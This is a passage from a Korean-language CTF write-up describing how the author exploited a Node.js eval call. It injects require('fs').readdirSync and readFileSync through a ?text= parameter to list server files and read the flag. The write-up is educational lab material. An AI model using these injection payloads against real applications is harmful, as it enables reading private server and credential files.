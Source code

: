     해당 eval함수는 어떤 언어든 되게 위험한 함수로 잘 알려져 있으므로

    ``blacklist``변수에 있는 문자열을 우회하여 내부 서버 파일에 접근하기 위해

    ```js
    require("fs").readdirSync("FILE Path")
    require("fs").readFileSync("FILE Name")
    ```

    fs 모듈의 ``readdirSync``, ``readFileSync`` 함수를 이용하여 취약점을 발생시켰습니다.

    ```js
    /?text=require("fs").readdirSync("./")
    Welcome to the world .bash_history,.bash_logout,.bashrc,.cache,.gnupg,.local,.pm2,.profile,.ssh,Dockerfile,hosts,main.js,node_modules,package-lock.json

    /?text=require("fs").readFileSync("hosts")
    Welcome to the world This it the flag you are looking for - shaktictf{eval_1s_n0t_safe_f0r_reputation}
    ```

    ``readdirSync``함수로 원하는 경로의 파일 이름을 알아낸 다음 ``readFileSync``함수로 파일 내용을 읽어보면
    
    hosts 파일에 플래그가 존재하는것을 볼 수 있습니다.

## 후기

이번 CTF는 되게 풀 수 있는것도 있어서 좋았던것같고 문제가 재밌었다.